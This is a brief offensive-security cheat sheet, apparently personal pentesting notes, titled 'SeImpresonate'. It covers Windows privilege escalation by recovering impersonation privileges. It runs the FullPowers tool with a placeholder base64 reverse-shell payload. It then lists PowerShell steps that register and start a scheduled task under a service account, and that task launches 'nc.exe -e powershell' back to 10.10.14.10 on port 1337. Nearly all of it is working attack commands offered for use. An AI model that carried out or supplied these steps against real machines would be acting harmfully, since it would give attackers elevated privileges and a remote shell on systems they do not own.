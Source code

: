 ```yaml
---
title: "SeImpresonate"
date: 2024-8-2
tags: ["SeImpresonate", "Windows", "potato", "privesc", "fullpower"]
---
```


---
### Abuse #1: Recover SeImpresonate

[FullPower](https://github.com/itm4n/FullPowers/releases/tag/v0.1)

```powershell
.\FullPowers.exe -c "whoami /priv"
```

```powershell
# Revshell
.\FullPowers.exe -c "<powershell #3 Base64>"
```

### Abuse #2: Recover tokens via schedule task

```powershell
# Create a list of privileges 
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseQuotaPrivilege", "SeIncreaseWorkingSetPrivilege", "SeTimeZonePrivilege"
```

```powershell
# Create a Principal for the task 
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "<SERVICE_ACCOUNT>" -LogonType ServiceAccount -RequiredPrivilege $Privs
```

```powershell
# Create an action for the task 
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `C:\\Windows\\Tasks\\nc.exe -e powershell 10.10.14.10 1337`""
```

```powershell
# Create the task
Register-ScheduledTask -Action $TaskAction -TaskName "SomeTask" -Principal $TaskPrincipal
```

```powershell
# Start the task
Start-ScheduledTask -TaskName "SomeTask"
```
 
<br>